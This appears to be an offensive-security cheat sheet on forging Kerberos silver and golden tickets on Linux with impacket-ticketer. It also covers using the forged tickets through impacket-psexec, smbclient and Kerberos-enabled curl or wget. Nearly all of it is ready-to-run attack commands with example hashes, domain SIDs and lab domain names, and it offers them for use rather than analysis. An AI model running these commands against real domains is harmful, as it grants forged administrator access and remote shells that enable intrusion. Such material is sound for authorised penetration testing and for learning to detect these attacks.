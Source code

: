 # forge ticket on linux
```bash
# silver ticket
$ impacket-ticketer -spn <SPN> -nthash <machine_nt_hash> -domain-sid <domain_sid> -domain <domain> <ADuser>

$ impacket-ticketer -spn cifs/server.test.local -nthash 0123456789ABCDEF0123456789ABCDEF -domain-sid S-1-5-21-1111111111-2222222222-3333333333 -domain TEST.LOCAL  Administrator
```
```bash
# golden-ticket
$ impacket-ticketer -nthash <krbtgt_ntlmhash> -domain-sid <domain_sid> -domain <domain> <ADuser>

# no service SPN must be specified
# the krbtgt ntlm hash must be used

$ impacket-ticketer -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park Administrator
```
- The script will create a `.ccache` file (e.g., `Administrator.ccache`) in the current directory.
- This file contains a forged TGS for the `cifs/server.test.local` service.
## Use forged TGS ticket
```bash
export KRB5CCNAME=/path/to/Administrator.ccache

impacket-psexec jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
smbclient //server.test.local/sharename -k -U TEST.LOCAL\\Administrator
# -k (Kerberos) means the tool will attempt to use the existing ticket in KRB5CCNAME.
```
If the SPN is, for example, `http/webserver.test.local`, you can similarly attempt to authenticate to web services that support Kerberos SSO (e.g., `curl --negotiate`, `wget --auth-negotiate`), after first setting the appropriate `KRB5CCNAME`.
